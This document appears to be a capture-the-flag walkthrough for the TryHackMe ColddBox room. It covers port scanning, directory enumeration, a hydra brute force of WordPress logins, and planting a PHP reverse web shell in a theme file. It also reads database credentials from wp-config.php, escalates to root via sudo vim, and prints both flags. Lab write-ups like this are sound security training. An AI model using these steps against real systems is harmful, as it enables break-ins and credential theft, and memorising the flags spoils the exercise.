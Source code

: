 # ColdBox

<div align="left">

<figure><img src="../.gitbook/assets/image (11).png" alt="" width="168"><figcaption><p><a href="https://tryhackme.com/room/colddboxeasy">https://tryhackme.com/room/colddboxeasy</a></p></figcaption></figure>

</div>

🔗 [ColdBox](https://tryhackme.com/room/colddboxeasy)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.100.105`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.100.105 coldbox.thm" >> /etc/hosts

mkdir thm/coldbox.thm
cd thm/coldbox.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 coldbox.thm
PING coldbox.thm (10.10.100.105) 56(84) bytes of data.
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=1 ttl=63 time=65.4 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=2 ttl=63 time=61.1 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=3 ttl=63 time=60.5 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 coldbox.thm -oG nmap/port_scan
```

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 63
4512/tcp open  unknown syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 80, 4512

Now, we need to search which services are running on open ports:

```bash
nmap -p80,4512 -n -Pn -vvv -sCV --min-rate 5000 coldbox.thm -oN nmap/open_port
```

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 3 - User flag?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

we can see that's a wordpress web site, then we can try to see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

but we don't find precious info.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u coldbox.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very good, we can start to check these web dir:

/hidden/

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very good, there're precious info about usernames: C0ldd, Hugo and Philip.

We can confirm it watching error message at login in a default login path for wordpress: /wp-admin/

<figure><img src="../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally the's another good info

<figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we don't waste time, we can use wpscan to find user list, but we'll take it if we take results with our three users, then try to login with C0ldd/Hugo/Philip:password123 (what we've see in the hidden path).

Nothing to do, we need to use brute force attack.

Then, we save them in a file called users.txt, and run hydra with a password wordlist to take a brute force attack:

```bash
echo "C0ldd\nHugo\nPhilip" > users.txt
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt coldbox.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
C0ldd:9876543210
{% endhint %}

Now we can use this credentials to log in wordpress and ssh.

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

Check user list, to see them and theirs role/permissions:

<figure><img src="../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Very good, C0ldd is administrator.

Now, we need to access at machine using web shell, find it on our kali web-shells folder or use pentester monkey website:

<figure><img src="../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

We need to edit it using our credentials (LHOST and LPORT):

<div align="left">

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

</div>

and upload it on media library page:

<figure><img src="../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

But, trying to change extension, upload doesn't work.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Then, we can try to use wordpress themes or plugins how vector to inject our web-shell.

Starting with themes, we edit header.php page in the twentyfifteen theme using the same php web-shell:

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

Update file, run netcat listener on the same port '1234':

<div align="left">

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

</div>

Go to: [http://coldbox.thm/wp-content/themes/twentyfifteen/header.php](http://coldbox.thm/wp-content/themes/twentyfifteen/header.php)

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We can upgrade this to a fully interactive shell by running:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

and retrieve credentials inside wp-config.php file.

```bash
cat /var/www/html/wp-config.php | grep "DB_USER"
#define('DB_USER', 'c0ldd');
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"
#define('DB_PASSWORD', 'cybersecurity');
su c0ldd #inser psw and read flag.
```

we know credential for access how c0ldd user and read user.txt flag

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

</details>

### Task 4 - Root flag?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

We see that c0ldd user has root permissions for these commands, we can use gtfobins to find them.

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) using vim sudo command below, we obtain a root permission:

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

spawn /bin/sh to use shell:

<div align="left">

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

</details>
